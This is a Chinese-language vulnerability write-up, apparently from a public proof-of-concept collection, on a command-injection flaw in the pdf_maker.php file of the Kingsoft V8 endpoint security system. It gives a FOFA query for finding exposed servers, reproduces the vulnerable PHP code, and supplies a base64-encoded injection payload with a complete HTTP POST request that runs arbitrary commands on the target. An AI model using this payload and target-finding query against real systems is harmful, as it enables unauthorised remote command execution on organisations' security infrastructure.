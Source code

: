 # 金山 V8 终端安全系统 pdf_maker.php 命令执行漏洞

## 漏洞描述

金山 V8 终端安全系统 pdf_maker.php 存在命令执行漏洞，由于没有过滤危险字符，导致构造特殊字符即可进行命令拼接执行任意命令

## 漏洞影响

<a-checkbox checked>金山 V8 终端安全系统</a-checkbox></br>

## FOFA

<a-checkbox checked>app="猎鹰安全-金山V8+终端安全系统"</a-checkbox></br>

## 漏洞复现

存在漏洞的文件为

```plain
Kingsoft\Security Manager\SystemCenter\Console\inter\pdf_maker.php
```

```php
<?php
require_once (dirname(__FILE__)."\\common\\HTTPrequest_SCpost.php");
/*
{
   "kptl" :
{
"set_exportpdf_cmd" :
    {
    "url" : "http://172.18.254.146/report/system/main.php?userSession=5784727B-7AEA-4EFE-B0CB-DDD6DA1CABD3&guid=1AC380D9-                580C-49A8-B6EC-787CF50FA928&VHierarchyID=ADMIN",
    "fileName":"test.pdf"
    }
}
*/
	
	
	//$post = file_get_contents("php://input");
	
	/*
	$post = array("kptl"=>
			array("set_exportpdf_cmd"=>array(
				"url"=>"http://172.18.254.146/report/system/main.php?userSession=5784727B-7AEA-4EFE-B0CB-DDD6DA1CABD3&guid=1AC380D9-580C-49A8-B6EC-787CF50FA928&VHierarchyID=ADMIN",
				"fileName"=>"test1234.pdf"
				)
			));
			*/
			
	
			
	
	

	$url = $_POST["url"];
	$fileName =  $_POST["fileName"];
	$batName=$fileName;
	if ($url == null || $fileName == null)
	{
		$return["nResult"] = __LINE__;
		echo json_encode($return,JSON_UNESCAPED_UNICODE);
		return ;
	}
	
	$url = base64_decode($url);
	$nameStr = base64_decode($fileName).date("Y-m-d").".pdf";
	$fileName="..\\htmltopdf\\".$nameStr;

	system('mkdir ..\\htmltopdf');

	
	$cmd = '..\\..\\wkhtmltopdf.exe "'.$url.'" '.$fileName;
	if (getApacheVersion()>=24) { //apache 2.4 php 7 版本 只能在  bat中运行
		$cmd =" del ".$fileName;

		exec($cmd);
		$url_= str_replace('%','%%', $url);
		$cmd = '..\\..\\wkhtmltopdf.exe "'.$url_.'" '.$fileName;
		$batName ="exec_wkhtmltopdf.bat";
		$myfile = fopen($batName , "w");
		//$cmd =iconv("UTF-8", "gbk", $cmd );
		fwrite($myfile, $cmd);
		fclose($myfile);
		$cmd =$batName ;
		exec($cmd);
		$cmd =" del ".$batName;
		exec($cmd);
    }else
    {
	system($cmd);
    }
	// echo $url;
	$return = array("nResult" => "0","fileName" =>$nameStr,"url"=>$url);
	echo json_encode($return,JSON_UNESCAPED_UNICODE);
	
?>
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313111023403.png)



这里传入 base64加密的拼接命令即可执行任意命令

```plain
"|| ipconfig || --base64--> url=IiB8fCBpcGNvbmZpZyB8fA==&fileName=xxx
```

```plain
POST /inter/pdf_maker.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 45
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer:
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=noei1ghcv9rqgp58jf79991n04

url=IiB8fCBpcGNvbmZpZyB8fA%3D%3D&fileName=xxx
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313111022840.png)



## 